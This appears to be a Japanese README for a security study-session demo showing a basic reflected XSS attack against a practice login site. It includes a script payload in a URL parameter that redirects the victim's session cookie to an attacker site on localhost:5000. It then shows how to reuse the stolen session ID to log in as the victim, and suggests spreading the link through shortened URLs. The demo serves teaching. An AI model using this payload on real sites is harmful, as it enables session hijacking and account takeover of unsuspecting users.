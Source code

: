 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://当日教える.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ browser http://当日教える.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ browser http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ browser http://当日教える.com/?confirm=<script>window.location="http://localhost:5000/?sid=" + document.cookie</script>
```

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ browser http://当日教える.com/login?sid=[セッションID]
```

